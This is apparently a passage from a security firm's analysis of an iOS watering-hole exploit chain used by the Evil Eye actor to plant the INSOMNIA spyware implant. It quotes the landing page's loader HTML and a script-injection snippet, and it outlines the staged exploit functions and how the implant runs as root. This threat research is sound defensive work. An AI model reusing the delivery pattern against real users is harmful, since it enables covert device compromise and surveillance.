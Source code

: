 <title>data list</title>
 
</head>
<body onload="myfunction()">
<script>
 
function myfunction(){
settings();
save_data();
}
</script>
<script type="text/javascript" src="js/s.js?rid=V3KUMVZACLINY324HKVW7CI2EXF3ALPBONLGL23ZP3IKMZ6DVOBA"></script>
<script type="text/javascript" src="js/jquery.js?rid=V3KUMVZACLINY324HKVW7CI2EXF3ALPBONLGL23ZP3IKMZ6DVOBA"></script>
</body>
 
</html>
The file jquery.js contains the main logic and the server's public key, while the file s.js contains the supporting Stanford JavaScript Crypto Library used to generate a client key pair. This client public key is passed as a variable into the loading of the final JavaScript.
function goto_application(client_pub_g) {
document.write('\x3Cscript type="text/javascript" src="application?rid=VGXBJK2MFSGLRKQS7PZVJ2L5ZP3XTZPTDSFFYZYBFQPZBTBFKRJQ&cl='+ encodeURIComponent(client_pub_g)+ '">\x3C/script>');
}
The JavaScript served by the "application" request contains the following key functions/variables:




Function or variable
Purpose




var load_macho
Contains the malicious app to be dropped


function version_is_supported()
Checks if version of iOS (based on User-Agent) is suitable for exploit (return "12_3_2" == r || "12_3_1" == r || "12_3" == r)


function exp()
Responsible for running the exploit, similar to this code


function stage_stable()
Prepares a fake object for the exploit, in a similar way to this


function stage_final()
Responsible for building the Mach-O from the hex array & prepares the memory space to drop it in




If each step of the JavaScript above is successful, it results in a Mach-O binary running on the phone. This application contains an iOS exploit for the targeted version and another Mach-O binary, the INSOMNIA implant, embedded in it.
Successful iOS exploitation results in the INSOMNIA implant being written to the device at /tmp/updateserver. The implant is then started with the "run" command-line argument. It runs as root with various entitlements, giving it access to all the data the Evil Eye actor wishes to collect.
Volexity has conducted an initial analysis of the payload delivered through the exploit chain and has been able to confirm successful exploitation of an iPhone running iOS 12.3.1. An overview of this entire chain is shown in the Figure below:
